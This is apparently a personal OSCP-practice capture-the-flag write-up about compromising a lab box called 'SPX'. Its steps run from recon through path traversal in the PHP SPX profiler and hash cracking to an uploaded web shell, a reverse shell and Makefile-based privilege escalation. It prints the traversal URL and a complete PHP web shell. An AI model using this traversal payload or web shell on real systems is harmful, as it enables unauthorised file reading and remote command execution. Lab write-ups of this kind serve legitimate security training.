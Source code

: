 ```yaml
---
layout: /src/layouts/PostLayout.astro
title: SPX
tags: []
---
```

**Start 17:17 07-02-2025**

---
```
Scope:
192.168.192.108
```
## Recon

### Nmap

```bash
sudo nmap -sC -sV -vvvv -Pn -p- SPX -sT --min-rate=5000 -T5

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 b9:bc:8f:01:3f:85:5d:f9:5c:d9:fb:b6:15:a0:1e:74 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBYESg2KmNLhFh1KJaN2UFCVAEv6MWr58pqp2fIpCSBEK2wDJ5ap2XVBVGLk9Po4eKBbqTo96yttfVUvXWXoN3M=
|   256 53:d9:7f:3d:22:8a:fd:57:98:fe:6b:1a:4c:ac:79:67 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBdIs4PWZ8yY2OQ6Jlk84Ihd5+15Nb3l0qvpf1ls3wfa
80/tcp open  http    syn-ack Apache httpd 2.4.52 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Tiny File Manager
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

![](../../../assets/7eac0b7ea0f1675b3816550764577514.png)

I tried the default creds

![](../../../assets/a338fe9ef2636785393cf2aa5606323c.png)

To no avail.

![](../../../assets/aa683d8df27b10c6f1bdd795c3b4098d.png)

I tried to brute force it using `hydra` but it just gave me a bunch of false positives.

![](../../../assets/1c0163d18beb58a5ce364aafc0b74df3.png)


### Gobuster

![](../../../assets/235376bd9c17230bcabc30cc52fe4668.png)

![](../../../assets/e718c18a9412d85c55c95ea292673ccb.png)


### 80/TCP - HTTP

I started looking for exploits 

![](../../../assets/888e50c7765fecf636d47b2f85493257.png)

![](../../../assets/ce3d38fefbe90c6b73aab8d29e705fae.png)

However this exploit didn't fit my case.

Coming back to the `/phpinfo.php` endpoint however we find the following.

![](../../../assets/87194a7176d6d97c028c026735590023.png)

![](../../../assets/b318ff5c8a6c0bde55fbd5b54b30a54e.png)

![](../../../assets/6dc0f9d3c8139b741c847103e9de8b37.png)

:::important
The 3rd link in this case is the important one.
:::

![](../../../assets/f49550b9a7e61c84095d0d8d2a7df975.png)


## PoC 

If we try to run the exploit as is we'll get this error:

![](../../../assets/690b552fad4039ffeabd032a9ec2e43e.png)

However that is because we haven't modified the code yet.

![](../../../assets/63dcd97c38fac0b6c732c99521f4006a.png)

Here we notice the `SPX_KEY` value which we can gather from the `/phpinfo.php` page:

![](../../../assets/0568596435169b74e01f9e7a48cbc639.png)

Modified:

![](../../../assets/751aee57333ee0a3b15e0d4c7f3733bb.png)

Now when we run it:

![](../../../assets/3655bca3a647ca502d971651f7e8b423.png)

Awesome! 

![](../../../assets/0a28c0273d837294a89ebf24d28487df.png)

Not so awesome.

Let's try it via the URL instead.

```url
http://spx/?SPX_KEY=a2a90ca2f9f0ea04d267b16fb8e63800&SPX_UI_URI=%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fvar%2fwww%2fhtml%2findex.php
```

![](../../../assets/33ca2eb9a793bd631b66d8d80790d08f.png)

![](../../../assets/e3745a666b1dbd0f5d6ff1e9ef412253.png)

We get 2 hashes that we can crack!

![](../../../assets/639629ac2f21a585124dd5959d03cdf0.png)


## Hashcat

![](../../../assets/2d61f1a2575b83a14484f382fc43ff6f.png)

:::note
This took a *long* time, but eventually two passwords were cracked: `profiler, lowprofile`.
:::

## Foothold

Using `admin - lowprofile` I was able to log in.

![](../../../assets/bf9f2a0280ce0dee1af9e69f14612284.png)

I then uploaded this webshell

```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

After which I could execute a rev shell:

![](../../../assets/29158d4a64d87e32e55c2ca636c80570.png)

:::fail
From here on my reverse shell for whatever reason wouldn't catch, whatever port I issued.
:::

The day after after a fresh reboot I tried again:

![](../../../assets/79a6a5c55192a08381864def301c2ab7.png)

This time it worked:

![](../../../assets/72b1e21197374fe1277fdb256adffce9.png)

![](../../../assets/5e415dcf5d10d91790de275a147f91d4.png)

We don't have `sudo -l` privileges nor can we read the `local.txt` flag from *profiler*'s `/home` directory.

Let's check linpeas.


## Lateral Movement

### LinPEAS

Linpeas told me that this target is vulnerable to the **DirtyPipe** exploit:

![](../../../assets/c3fb954a23198d22f1a9ee68109b6a2f.png)

:::fail
![](../../../assets/b51bb7b57528352abf558f680fa48de7.png)
:::

Let's check further.

:::tip
I forgot to spray the passwords and got stuck, try spraying first next time.
:::

![](../../../assets/c11564103c740960886475c68ba4f851.png)

![](../../../assets/9a2c2ff6adede3116a9908b3306e1773.png)


### local.txt

![](../../../assets/ce58273d0b2dbf81fab042f4f183bb70.png)


## Privilege Escalation

### Replacing Makefile 

We will have to create a malicious `Makefile` which we will use to escalate our privs to *root*.

![](../../../assets/8d8c266b0ee5e3948e683b378842b73a.png)

![](../../../assets/ed550cbef89d9198365a3e0b7a749c17.png)

Let's run it.

![](../../../assets/d7a6f2fa7791a5e5d27e08d61ee47b5b.png)

![](../../../assets/0ec0f189c3635c5291dc3d319c4c32e9.png)

We now notice that the `s` bit is set, meaning we can use `/bin/bash -p` now to get a `root` shell.

![](../../../assets/a9bfcfebb40fc3cdd0ffcb0f900eda6e.png)


### proof.txt

![](../../../assets/7532c4814a10fd9269dcc18e22c3a3ce.png)

:::summary
This box fucking *SUCKED*.
:::
---

**Finished 10:47 08-02-2025**

[^Links]:  [[OSCP Prep]]
